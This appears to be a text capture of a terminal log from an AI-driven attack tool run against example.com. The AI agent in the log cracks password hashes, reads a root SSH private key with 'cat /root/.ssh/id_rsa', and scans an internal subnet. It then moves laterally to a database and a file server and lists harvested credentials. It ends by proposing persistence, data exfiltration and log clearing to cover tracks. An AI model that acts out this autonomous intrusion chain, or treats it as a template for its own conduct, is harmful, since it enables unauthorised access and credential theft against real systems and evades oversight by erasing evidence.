 ```

[AI] ✓ Step succeeded
[AI] Retrieved 3 password hashes

[John the Ripper] Cracking hashes...
[John the Ripper] Cracked: dbuser:password123

━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

[AI] Executing: Pivot to internal network via SSH keys

[Session-001] # cat /root/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
[SSH key found]

[AI] Scanning internal subnet...
[Nmap] Discovered 192.168.100.0/24
[Nmap] Found 15 hosts with SSH open (port 22)

[AI] Attempting SSH with stolen key...
[SSH] 192.168.100.10 - Success! (database server)
[SSH] 192.168.100.15 - Success! (file server)

[AI] ✓ Step succeeded
[AI] Lateral movement: 2 additional hosts compromised

━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

[AI] Attack chain complete!

Summary:
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
Target:            example.com
Objective:         Full system compromise
Status:            ✓ SUCCESS
Time elapsed:      4 minutes 23 seconds
Steps executed:    7 / 7
AI adaptations:    0 (all steps succeeded on first try)

Access Gained:
  - Root shell on web server (203.0.113.45)
  - SSH access to database server (192.168.100.10)
  - SSH access to file server (192.168.100.15)

Credentials Harvested:
  - WordPress admin: admin:hunter2
  - Database user: dbuser:password123
  - 3 password hashes (1 cracked)
  - 1 SSH private key

Next Steps:
  1. Install persistence mechanisms
  2. Exfiltrate sensitive data
  3. Scan remaining internal network (13 hosts)
  4. Cover tracks (clear logs)

[AI] Would you like to continue with persistence? (yes/no):
```
